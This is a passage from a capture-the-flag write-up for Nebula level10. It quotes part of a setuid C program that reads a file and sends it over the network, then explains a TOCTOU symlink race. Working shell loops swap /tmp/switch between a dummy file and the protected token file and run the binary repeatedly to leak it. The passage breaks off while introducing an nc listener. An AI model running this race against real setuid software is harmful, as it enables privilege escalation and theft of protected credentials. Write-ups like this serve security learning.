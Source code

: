 ```C
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}

```

The program sends the contents of a file via network. The problem is that the file is only opened if the real user id has access to it, which we do not have for the `token` file that is the obvious target. The actual file reading is done with `flag10` permissions. If one has experience with such code one can see that this is actually a race condition. What if the the check happens on an accessible file that is replaced by an inaccessible file (for `level10`) before it is actually read? We have our attack vector! But the file name is a constant argument, how can we change it during execution? The answer is we can't but we can use symlinks such that the filename points to different files:

```bash
level10@nebula:/home/flag10$ echo "dummy" > /tmp/dummy
level10@nebula:/home/flag10$ while true; do ln -sf ~flag10/token /tmp/switch; ln -sf /tmp/dummy /tmp/switch; done
```

As in most race conditions we will not be able to reliably trigger it, which is why we will try it multiple times:

```bash
for x in {1..100}; do ./flag10 /tmp/switch 127.0.0.1; done
```

We also have to set up our listener on port `18211` as it is hard coded in the source code. Due to our numerous tries, the listener should keep listening after connection loss. `nc` has the `-k` flag for this purpose:
